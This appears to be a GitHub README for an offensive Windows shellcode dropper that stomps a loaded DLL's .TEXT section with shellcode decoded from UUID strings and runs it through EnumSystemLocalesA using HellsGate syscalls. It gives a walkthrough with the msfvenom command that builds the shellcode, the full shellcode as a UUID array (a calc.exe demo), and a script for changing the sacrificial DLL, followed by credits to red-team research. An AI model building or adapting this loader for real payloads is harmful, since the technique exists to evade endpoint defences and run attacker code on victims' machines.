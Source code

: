 # Module-Stomping UUID2Shellcode HellsGate Dropper
Dropper that loads DLL into memory, changes DLL `.TEXT` section to RW, decodes shellcode from UUID &amp; writes to DLL `.TEXT` section, changes DLL `.TEXT` section back to RX, and uses `EnumSystemLocalesA()` to jump to shellcode &amp; execute!

#### Created with [Matt Kingstone](https://twitter.com/n00bRage)

## Walkthrough Example with MSF PopCalc
### MSFVenom PopCalc Shellcode Creation
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

### Raw Shellcode File to UUIDs
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 bin2uuid.py calc.bin
    const char* uuids[] =
    {
        "e48348fc-e8f0-00c0-0000-415141505251",
        "d2314856-4865-528b-6048-8b5218488b52",
        "728b4820-4850-b70f-4a4a-4d31c94831c0",
        "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
        "48514152-528b-8b20-423c-4801d08b8088",
        "48000000-c085-6774-4801-d0508b481844",
        "4920408b-d001-56e3-48ff-c9418b348848",
        "314dd601-48c9-c031-ac41-c1c90d4101c1",
        "f175e038-034c-244c-0845-39d175d85844",
        "4924408b-d001-4166-8b0c-48448b401c49",
        "8b41d001-8804-0148-d041-5841585e595a",
        "59415841-5a41-8348-ec20-4152ffe05841",
        "8b485a59-e912-ff57-ffff-5d48ba010000",
        "00000000-4800-8d8d-0101-000041ba318b",
        "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
        "c48348d5-3c28-7c06-0a80-fbe07505bb47",
        "6a6f7213-5900-8941-daff-d563616c632e",
        "00657865-9090-9090-9090-909090909090"
    };
```

### Copy UUID Shellcode to `main.c`

### Optionally Change Sacraficial DLL
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 string2array.py sLib mshtml.dll
CHAR sLib[] = {'m','s','h','t','m','l','.','d','l','l',0};
```
+ Replace the `CHAR sLib[]` array in `main.c` with the newly generated one.

## Credits / References
+ [Stephan Borosh (rvrsh3ll|@424f424f)](https://twitter.com/424f424f) & [Matt Kingstone](https://twitter.com/n00bRage) for showing me the awesome UUID shellcode loading technique.
+ [ajpc500/binToUUIDs.py](https://gist.github.com/ajpc500/a9695eca6a660d1fb5ec30a2e356f33e)
+ [Secure Hat - Shellcode Execution via EnumSystemLocalA](https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala)
### Implementing ASM in Visual Studio C Projects
+ [bs - Implementing Syscalls In The Cobaltstrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM - [Vivek Ramachandran (@vivekramac)](https://twitter.com/vivekramac)
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)

## Other Projects/References that use the UUID Shellcode Loading Technique
+ [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/2cb5f8b4691ee430fbfad084d3cb863a0ca2f0b7/src/uuid_exec_bin.nim)
- https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
- https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
- https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014#file-uuid-c
